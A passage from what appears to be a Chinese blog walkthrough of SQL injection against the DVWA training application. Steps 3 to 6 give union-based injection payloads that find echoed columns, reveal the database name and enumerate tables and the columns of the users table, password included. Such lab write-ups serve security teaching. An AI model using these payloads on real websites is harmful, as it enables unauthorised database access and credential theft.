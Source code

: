 ```
**3.确定显示的字段顺序**



```
id=1 union select 1,2&Submit=Submit
```

![30](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220427103858.png)



> 可以看出有 2 个回显



**4.获取当前数据库**

```
id=3 union select 1,database()#&Submit=Submit
```

![25](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220427103900.png)



> 说明当前的数据库为dvwa。



**5.获取数据库中的表**

```
id=1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()&Submit=Submit
```

![31](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220427103903.png)



> 说明数据库dvwa中一共有两个表，guestbook与users。



**6.获取表中的字段名**

```
id=1 union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273&Submit=Submit
```

![32](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220427103905.png)





> 说明users表中有8个字段，分别是user_id,first_name,last_name,user,password,avatar,last_login,failed_login。

```